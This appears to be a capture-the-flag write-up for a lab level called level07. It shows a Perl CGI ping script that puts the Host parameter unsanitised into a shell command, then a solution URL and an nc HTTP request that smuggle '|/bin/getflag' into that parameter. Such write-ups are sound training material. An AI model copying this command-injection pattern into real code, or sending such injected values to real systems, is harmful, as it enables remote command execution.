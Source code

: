 # Level07

#### About

The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server. 
To do this level, log in as the level07 account with the password level07. Files for this level can be found in /home/flag07. 


#### Source Code

```
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
	$host = $_[0];

	print("<html><head><title>Ping results</title></head><body><pre>");

	@output = `ping -c 3 $host 2>&1`;
	foreach $line (@output) { print "$line"; } 

	print("</pre></body></html>");
	
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

#### Solutions

http://level07-sevrer:7007/index.cgi?Host=127.0.0.1|/bin/getflag
```
cat /home/flag07/thttpd.conf ----> port=7007
nc -v level07-server 7007
GET /index.cgi?Host=127.0.0.1|/bin/getflag HTTP/1.0
```

